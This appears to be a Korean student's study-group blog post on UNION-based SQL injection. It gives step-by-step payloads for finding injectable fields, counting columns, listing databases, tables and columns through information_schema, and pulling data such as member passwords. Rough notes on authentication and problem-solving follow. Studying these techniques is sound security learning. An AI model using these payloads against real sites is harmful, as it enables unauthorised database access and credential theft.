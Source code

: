 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[WEB HACKING] Union SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-20
last_modified_at: 2024-12-21

tags: [TIL, WEB, DATABASE, SECURITY]
---
```


# Union SQL Injection
## Union SQL Injection이란?
: 웹페이지에 데이터가 나오는 경우에서 데이터를 추출하는 방법
union
join은 안되냐??

## Union SQL Injection 공격 Point
1. DB를 사용하는 곳
2. 그 데이터가 화면에 나오는 rht
    1. 게시판
    2. 로그인, 아이디 중복체크 등

## ORDER BY
출력되는 데이터 정렬할 때 사용
`SELECT ~ ORDER BY [COLUMN]`

## UNION SQL INJECTION Process
1. sql injection 포인트 찾기  
`' and '1' = '1`
2. column 개수 찾기  
`' order by 1...n #`
3. 출력되는 column 위치 찾기  
`' union select 1, 2, 3, 4 #`  
-> select 1, 2, 3, 4가 왜 정상적으로 작동하는 거야???  
-> `' union select 1, pass, 3, 4 from member #`  
4. db 이름 확인  
`select database()`  
-> `' union select 1, database(), 3, 4 from member #`
5. table 이름 확인  
`select table_name from information_schema.tables where table_schema = [DB 이름]`  
-> `' union select 1, table_name, 3, 4 from information_schema.tables where table_schema = [DB 이름] #`
6. column 이름 확인  
`select column_name from information_schema.columns where table_name = [table 이름]`  
-> `' union select 1, column_name, 3, 4 from information_schema.columns where table_name = [table 이름] #`
7. data 추출

클라이언트 측 인증

분리
내가 비밀번호를 바꿀 수 있던지
비밀번호를 알아내던지

어떤 방식으로 고민을 해야 하는가?
어떻게 동작하느냐? -> 직접 만들어보기
sql query문 직접 실행해보기
왜 됐는 지 확인하기
1. 문제 원인 찾기
2. 문제 해결하기

남들의 문제는 원인을 생각하지 마라

https://www.redirhub.com/ko/blog/redirect-types-and-seo-effects-2
https://developer.mozilla.org/ko/docs/Web/HTTP/Redirections